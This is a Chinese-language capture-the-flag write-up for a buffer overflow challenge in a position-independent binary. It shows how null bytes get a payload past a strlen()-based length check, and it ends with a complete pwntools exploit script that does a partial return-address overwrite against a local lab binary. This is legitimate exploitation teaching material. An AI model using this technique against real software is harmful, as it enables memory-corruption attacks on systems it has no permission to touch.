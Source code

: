 # 挑战简介
```
溢出缓冲区并粉碎堆栈以获取标志，但这次是在位置无关 （PIE） 二进制文件中，并对您的输入进行额外检查。
```
这题的提示表面上并没有很多,至于题目的意思,我简述一遍
```
这题建立的基础依旧包括上一题的PIEs,但是这次多了一个检查函数:如果你的输入大于某个值,直接结束进程
```

# 思路
是不是感觉很难,确实很难,我不断的尝试各种可能可依旧没有找到绕过方式
所以我通过IDA检查了challenge函数的具体机制我发现
- 输入的缓冲区由*buf指针圈住,结合char数组来获取输入
- 其中有一个变量v10,利用strlen()函数来获取*buf的大小,再进行判断
所以,**直接栈溢出是行不通的**

那么我们还可以从哪里入手?  
**man strlen**  
**仔细看,仔细看,仔细看!**  
你会发现如下一段话  
```
The strlen() function calculates the length of the string pointed to by s, excluding the terminating null byte ('\0').
```
**也就是说,strlen会计算变量字符串的大小,但是不包括\0**  
这下看懂了  
答案如下  
```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-null-write-w')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x1cde)
#offset_last = 
payload = b"\x00" * 0x78 + b'\xde\x1c'  #没想到,\0也能用来栈溢出
print(len(payload))
p.send(payload)
p.recvall()
```
